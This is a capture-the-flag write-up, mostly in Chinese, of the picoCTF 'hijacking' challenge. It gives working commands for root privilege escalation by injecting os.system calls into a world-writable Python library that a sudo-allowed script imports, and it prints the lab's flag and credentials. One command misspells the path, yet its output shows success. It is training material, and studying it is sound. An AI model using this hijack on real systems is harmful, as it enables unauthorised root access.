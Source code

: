 ```yaml
---
title: PicoCTF - hijacking
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - hijacking
<!-- more -->

## Background
Privilege Escalation

Hint 1: Check for Hidden files
Hint 2: No place like Home:)

---
[Linux sudo命令](https://www.runoob.com/linux/linux-comm-sudo.html)
> -l 顯示出自己（執行 sudo 的使用者）的權限

## Recon
第一次遇到提權的問題，感覺很新鮮也很好玩，不過因為沒啥概念所以主要是參考[^pico_pwn_hijacking_wp_martin]
1. 首先觀察一下各個file或folders，根目錄有個challenge folder，另外家目錄有一個.server.py檔案，裡面的內容不太重要，只需要知道他import哪些library
2. 現在的問題是按照目前的權限，無法讀取challenge相關的資訊，所以我們要提升權限，主要的做法是利用base64.py這個mod全開的檔案進行讀寫，再利用python執行有import base64的.server.py檔案就可以執行shell
3. 為神麼要用base64.py當作主要的突破口就是因為只有他的mod全開
    ```bash
    $ ls -al /usr/lib/python3.8
    ...
    -rwxrwxrwx 1 root root  20382 Nov 14  2022 base64.py
    ...
    -rw-r--r-- 1 root root  38995 Nov 14  2022 os.py
    ...
    -rw-r--r-- 1 root root  35243 Nov 14  2022 socket.py
    ```

## Exploit
```bash
$ ssh picoctf@saturn.picoctf.net -p 58219
$ find / -name "base64.py"
...
/usr/lib/python3.8/base64.py
...
$ vim /usr/lib/python3.8/base64.py
# add these line and save the file
import os
os.system('ls -al /challenge')
$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
$ sudo /usr/bin/python3 /home/picoctf/.server.py
total 4
d--------- 1 root root   6 Mar 16 02:08 .
drwxr-xr-x 1 root root  51 Jul 31 15:23 ..
-rw-r--r-- 1 root root 103 Mar 16 02:08 metadata.json
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
$ vim /usr/lib/python3.8/base64.py
# revise the file
os.system('cat /challegne/metadata.json')
$ sudo /usr/bin/python3 /home/picoctf/.server.py
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "HYGhWsmPyf"}sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```

Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`

## Reference
[^pico_pwn_hijacking_wp_martin]:[ picoCTF 2023 hijacking ](https://youtu.be/BIzu0AtOq5w)